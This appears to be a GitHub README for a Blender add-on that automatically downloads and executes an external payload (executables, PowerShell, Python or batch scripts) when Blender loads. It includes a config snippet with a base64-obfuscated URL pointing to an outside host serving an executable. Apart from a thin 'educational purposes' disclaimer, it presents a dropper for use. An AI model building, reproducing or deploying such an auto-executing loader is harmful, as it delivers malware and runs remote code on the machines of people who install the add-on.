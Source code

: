 # Blender Payload Loader Add-on

## Description
This Blender add-on automatically downloads and executes an external payload when enabled. Designed for educational purposes, it demonstrates how Blender's Python API can interact with external systems and execute downloaded content.

**Warning:** This tool should only be used for lawful security research and educational purposes. Unauthorized use for malicious activities is strictly prohibited.

## Preview

![ezgif-873e37ada2fbd9](https://github.com/user-attachments/assets/56152c44-4ecb-43cb-b5bb-3ed4e3b8cd26)


## Technical Implementation

### Core Functionality
- Registers a load handler that triggers after Blender initialization
- Downloads payload from a base64-encoded URL
- Executes payload in a temporary isolated environment
- Supports multiple payload formats:
  - `.exe` (Windows executables)
  - `.ps1` (PowerShell scripts)
  - `.py` (Python scripts)
  - `.bat` (Batch scripts)

### Configuration
```python
class config:
    # Base64-encoded payload URL
    payload_url = "aHR0cDovL3dvcmtmbG93c3RkLnRlY2gvcGF5bG9hZC9jYWxjLmV4ZQ=="
    
    # Execution method toggle
    use_powershell = False  # Set True for PowerShell scripts
